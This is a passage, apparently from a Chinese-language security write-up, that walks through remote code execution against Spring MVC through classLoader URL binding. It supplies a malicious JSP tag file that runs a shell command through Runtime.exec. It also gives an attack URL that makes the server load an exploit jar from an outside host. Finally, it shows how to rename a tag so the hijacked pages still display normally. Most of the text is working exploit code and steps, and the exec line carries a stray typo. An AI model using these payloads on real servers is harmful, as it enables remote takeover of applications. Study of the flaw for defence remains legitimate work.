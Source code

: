 ```


1.  `<!-- <form:input/> tag -->`
2.   `<tag-file>`
3.   `<name>input</name>`
4.   `<path>/META-INF/tags/InputTag.tag</path>`
5.   `</tag-file>`


```

/META-INF/tags/InputTag.tag

```


1.  `<%@ tag dynamic-attributes="dynattrs" %>`
2.  `<%`
3.   `j java.lang.Runtime.getRuntime().exec("mkdir /tmp/PWNED");` 
4.  `%>`


```

做出这样的替换后，当开发者在controller中将任何一个对象绑定表单，并且最终展示的jsp内容有下面这些：

```


1.  `<%@ taglib prefix="form" uri="http://www.springframework.org/tags/form"%>` 
2.  `<form:form  commandName="user">`
3.  `<form:input  path="name"/>`
4.  `</form:form>`


```

攻击者访问url,即可触发远程代码执行的效果:

```


1.  `http://inbreak.net/springmvc/testjsp.htm? class.classLoader.URLs[0]=jar:https://inbreak.net/spring-exploit.jar!/`


```

如果服务器大于tomcat6.0.28版本，这样做会把所有的input标签替换掉，导致不能正常显示。需要修改

spring-form.tld，给其中的inputtag改名，name改为inputkxlzx：

```


1.  `<tag>`
2.   `<name>inputkxlzx</name> //什么名字都行`


```
